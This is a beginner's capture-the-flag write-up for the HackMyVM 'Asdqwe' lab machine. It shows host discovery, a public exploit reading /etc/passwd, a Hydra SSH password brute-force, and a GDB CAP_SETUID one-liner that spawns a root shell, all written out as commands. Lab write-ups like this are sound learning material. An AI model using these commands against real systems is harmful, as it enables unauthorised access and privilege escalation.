 # ASDQWE
**network discovery**
I usually use __Fping__ command to watch active machines in my network  

![fping_image](images/fping.png)

i saw the __192.168.1.113__ is my the **CTF** machine 
![namp]https://github.com/HosseinVampire/Writeups/blob/main/Hackmyvm/Asdqwe/images/fping.png)

**FIND 8080 port lets check it**

i did some search on site but nothing ....

only got this information 

![info](images/information.png)

i tried to brouteforce the login page but its seems to protected  so i got stuck 

###  Exploit-db

i check exploit-db  and this is result 
![exploit-db](images/searchsploit.png)
exploit number is  __51993__
i import the file and can read some files  

```bash
python 51993.py  -u http://192.168.1.113:8080 -p /etc/passwd
```
_Result_ : 

![passwd](images/passwd.png)

users that have bash : Root , kali , penetration 
*i serched a lot for id_rsa or any password but nothing ...*

i spend a 30 min to figure the solution of gettin a shell it  .   Thanks to my friend **ll104567**

from the name of machine i thought that password might be a silly  so ...
### Hydra
**hydra -l kali -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  ssh://192.168.1.113**
![hydrapassword](images/hydra.png)

### PRIV ESC - ROOT
 
Getting root was easy 
check  capabilities and got below results :
[cap](images/setuiddiscovery.png)

Find *GDB* command that got capabilities 

**If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.**

# ROOT ACCESS :

**gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit**

DONE :)

![root](images/root.png)

it is my first write up, im sorry if i explained bad <3